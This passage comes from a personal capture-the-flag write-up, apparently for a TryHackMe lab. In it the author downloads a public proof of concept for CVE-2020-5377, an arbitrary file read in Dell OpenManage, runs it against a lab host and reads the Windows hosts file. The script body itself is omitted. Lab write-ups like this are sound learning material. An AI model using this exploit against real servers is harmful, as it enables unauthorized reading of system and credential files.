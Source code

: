 We can search for OpenManage 9.4.0.2 [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and we find Tyler's update to the [CVE-2020-5377](../../3%20-%20Tags/CVEs/CVE-2020-5377.md) (creator of the room) on [Github](../../3%20-%20Tags/Hacking%20Concepts/Github.md) :

![Pasted image 20250728152017.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250728152017.png)

So we copy the script and create the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) file in our directory with [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) and make it executable with `chmod +x *.py`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ cat CVE-2020-5377.py 
# This is a proof of concept for CVE-2020-5377, an arbitrary file read in Dell OpenManage Administrator
# Proof of concept written by: David Yesland @daveysec with Rhino Security Labs
# More information can be found here: 
...
...
```

Now we can use it :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ python3 CVE-2020-5377.py                  
Usage: python CVE-2020-5377.py <yourIP> <targetIP>:<targetPort>

┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ python3 CVE-2020-5377.py  10.8.162.183 10.10.142.189:1311
Session: 986C73BB77D23F1088E60F2A2F7EBAFA                                                       
VID: 5B3F064309FD2B6E
file > 
```

We know it's [Windows](../../3%20-%20Tags/Hacking%20Concepts/Windows.md) so let's search for standard interesting files :

```bash
file > /windows/system32/drivers/etc/hosts                                                 
Reading contents of /windows/system32/drivers/etc/hosts:
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
```